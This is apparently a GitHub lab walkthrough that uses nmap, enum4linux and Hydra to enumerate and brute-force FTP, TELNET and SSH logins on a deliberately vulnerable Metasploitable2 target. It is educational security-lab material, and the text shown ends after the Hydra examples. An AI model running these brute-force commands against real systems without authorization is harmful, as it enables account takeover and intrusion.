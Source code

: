 # 🛡️ Network Protocol Vulnerability Lab - Walkthrough

## 📌 Objective
The purpose of this lab is to simulate brute force attacks against common network services (**FTP**, **TELNET**, **SSH**, and **HTTP**), analyze the security of these protocols, capture and inspect network traffic, and propose security mitigations.

---

## 🖥️ Lab Environment Setup
- **Attacker VM:** Kali Linux 2024.4
- **Target VM:** Vulnerable Linux VM (Metasploitable2 / custom)
- **Tools Used:** Hydra, Burp Suite, Wireshark,

---

# 🧾 Task 1: Enumerate the Target

## 🎯 Goal
Identify valid usernames on the target VM.

## 1.1 Nmap scan
Performed an initial scan to discover open services.

---

## 🛠️ Commands Used
```bash
nmap -p 21,23,22,80 <target-ip> 
```

![image](https://github.com/user-attachments/assets/3003bcc5-bfd0-4b8f-b4e4-77baba25b8c5)

---

## 1.2 Enum4linux Enumeration
Since ports (21,23,22,80) are open, used enum4linux to gather more usernames.

---

## 🛠️ Commands Used
```bash
enum4linux -a <target-ip> 
```
![image](https://github.com/user-attachments/assets/d3aa5613-9725-45dc-9d5c-d2f50fb3ad5e)
![image](https://github.com/user-attachments/assets/2fd2d4d5-60fe-412f-b145-e07f3199bfc9)

---

# 🔐 Task 2: Brute Force Attacks

## 2.1 FTP / TELNET / SSH
Use Hydra to perform brute force attacks against the services FTP, TELNET, and SSH.

---

## 🛠️ Example Hydra Commands

```bash
# Brute force FTP login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ftp://<target-ip>

# Brute force TELNET login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> telnet://<target-ip>

# Brute force SSH login
hydra -L /usr/share/wordlists/<file.txt> -P /usr/share/wordlists/<file.txt> ssh://<target-ip>
```
![image](https://github.com/user-attachments/assets/3f148cad-802e-4a38-aa50-b542a588f5bd)

---

